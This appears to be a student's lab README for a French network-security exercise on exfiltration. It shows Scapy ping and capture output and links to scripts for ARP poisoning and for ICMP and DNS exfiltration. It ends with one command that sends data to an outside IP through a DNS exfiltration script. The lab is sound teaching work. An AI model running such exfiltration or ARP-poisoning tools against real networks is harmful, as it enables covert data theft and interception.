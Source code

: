 # TP4 SECU : Exfiltration
## I. Getting started Scapy
### 🌞 ping.py
Lien vers le code : [ping.py](TP-4/ping.py)
```
matis@ThinkPad:~/TP-RESEAU-B2/TP-4$ sudo python3 ping.py
Begin emission:
Finished sending 1 packets.
..*
Received 3 packets, got 1 answers, remaining 0 packets
Pong reçu : QueryAnswer(query=<Ether  dst=28:7f:cf:99:86:8a src=20:16:b9:2a:02:70 type=IPv4 |<IP  frag=0 proto=icmp src=10.33.79.113 dst=10.33.79.176 |<ICMP  type=echo-request |>>>, answer=<Ether  dst=28:7f:cf:99:86:8a src=20:16:b9:2a:02:70 type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=28 id=25241 flags= frag=0 ttl=64 proto=icmp chksum=0x64e5 src=10.33.79.113 dst=10.33.79.176 |<ICMP  type=echo-reply code=0 chksum=0x0 id=0x0 seq=0x0 |>>>)
```

### 🌞 tcp_cap.py
[tcp_cap.py](/TP-4/tcp_cap.py)

```
matis@ThinkPad:~/TP-RESEAU-B2/TP-4$ sudo python3 tcp_cap.py 
TCP SYN ACK reçu !
- Adresse IP source : 104.18.29.67
- Adresse IP destination : 10.33.79.176
- Port source : 443
- Port destination : 51223
```

### 🌞 dns_cap.py

[dns_cap.py](/tp4/tcp_cap.py)

```
matis@ThinkPad:~/projets/r-seauB2/tp4$ sudo python3 dns_cap.py 
172.67.74.226
```
### 🌞 dns_lookup.py
[dns_lookup.py](/TP-4/dns_lookup.py)

```
matis@ThinkPad:~/TP-RESEAU-B2/TP-4/$ sudo python3 dns_lookup.py 
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
UDP : QueryAnswer(query=<Ether  dst=cc:00:f1:3e:b6:f5 type=IPv4 |<IP  frag=0 proto=udp dst=1.1.1.1 |<UDP  sport=53043 dport=domain |<DNS  rd=1 qd=<DNSQR  qname='ynov.com.' qtype=A |> |>>>>, answer=<Ether  dst=28:7f:cf:99:86:8a src=cc:00:f1:3e:56:f3 type=IPv4 |<IP  version=4 ihl=5 tos=0x60 len=102 id=48817 flags=DF frag=0 ttl=56 proto=udp chksum=0xbf29 src=1.1.1.1 dst=192.168.1.162 |<UDP  sport=domain dport=46089 len=82 chksum=0x29f4 |<DNS  id=0 qr=1 opcode=QUERY aa=0 tc=0 rd=1 ra=1 z=0 ad=0 cd=0 rcode=ok qdcount=1 ancount=3 nscount=0 arcount=0 qd=<DNSQR  qname='ynov.com.' qtype=A qclass=IN |> an=<DNSRR  rrname='ynov.com.' type=A rclass=IN ttl=300 rdlen=4 rdata=104.26.11.233 |<DNSRR  rrname='ynov.com.' type=A rclass=IN ttl=300 rdlen=4 rdata=172.67.74.226 |<DNSRR  rrname='ynov.com.' type=A rclass=IN ttl=300 rdlen=4 rdata=104.26.10.233 |>>> ns=None ar=None |>>>>)
```

## II. ARP Poisoning

### 🌞 arp_poisoning.py
[arp_poisoning.py](/TP-4/arp_poisoning.py)

## II. Exfiltration ICMP

### 🌞 icmp_exf_send.py
[icmp_exf_send.py](/TP-4/icmp_exf_send.py)
Caractère exfiltrer sur wireshark

### 🌞 icmp_exf_receive.py
[icmp_exf_receive.py](/TP-4/icmp_exf_receive.py)

```
matis@ThinkPad:~/TP-RESEAU-B2/TP-4$ sudo python3 icmp_exf_receive.py 
```

## III. Exfiltration DNS

### 🌞 dns_exfiltration_send.py

```
matis@ThinkPad:~/TP-RESEAU-B2/TP-4$ sudo python3 dns_exfiltration_send.py 172.68.45.3 helloworld
```